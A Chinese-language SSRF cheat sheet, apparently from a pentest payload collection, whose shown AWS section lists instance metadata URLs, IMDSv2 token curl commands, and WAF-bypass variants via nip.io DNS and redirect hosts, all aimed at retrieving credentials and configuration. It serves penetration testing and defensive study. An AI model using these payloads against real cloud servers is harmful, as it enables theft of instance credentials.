 # 云实例的SSRF URL

> 在云环境中利用服务器端请求伪造(SSRF)时，攻击者通常以元数据端点为攻击目标，以检索敏感实例信息（如凭证、配置）。以下是各种云和基础设施提供商的常见URL分类列表。

## 目录

* [AWS Bucket的SSRF URL](#aws-bucket的ssrf-url)
* [AWS ECS的SSRF URL](#aws-ecs的ssrf-url)
* [AWS Elastic Beanstalk的SSRF URL](#aws-elastic-beanstalk的ssrf-url)
* [AWS Lambda的SSRF URL](#aws-lambda的ssrf-url)
* [Google Cloud的SSRF URL](#google-cloud的ssrf-url)
* [Digital Ocean的SSRF URL](#digital-ocean的ssrf-url)
* [Packetcloud的SSRF URL](#packetcloud的ssrf-url)
* [Azure的SSRF URL](#azure的ssrf-url)
* [OpenStack/RackSpace的SSRF URL](#openstackrackspace的ssrf-url)
* [HP Helion的SSRF URL](#hp-helion的ssrf-url)
* [Oracle Cloud的SSRF URL](#oracle-cloud的ssrf-url)
* [Kubernetes ETCD的SSRF URL](#kubernetes-etcd的ssrf-url)
* [Alibaba的SSRF URL](#alibaba的ssrf-url)
* [Hetzner Cloud的SSRF URL](#hetzner-cloud的ssrf-url)
* [Docker的SSRF URL](#docker的ssrf-url)
* [Rancher的SSRF URL](#rancher的ssrf-url)
* [参考资料](#参考资料)

## AWS Bucket的SSRF URL

AWS实例元数据服务是Amazon EC2实例内部可用的一项服务，允许这些实例访问有关自身的元数据。 - [文档](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

* IPv4端点（旧版）: `http://169.254.169.254/latest/meta-data/`
* IPv4端点（新版）需要请求头 `X-aws-ec2-metadata-token`

  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

* IPv6端点: `http://[fd00:ec2::254]/latest/meta-data/`

如果存在WAF，您可能需要尝试不同的方式连接API。

* 指向AWS API IP的DNS记录

  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```

* HTTP重定向

  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```
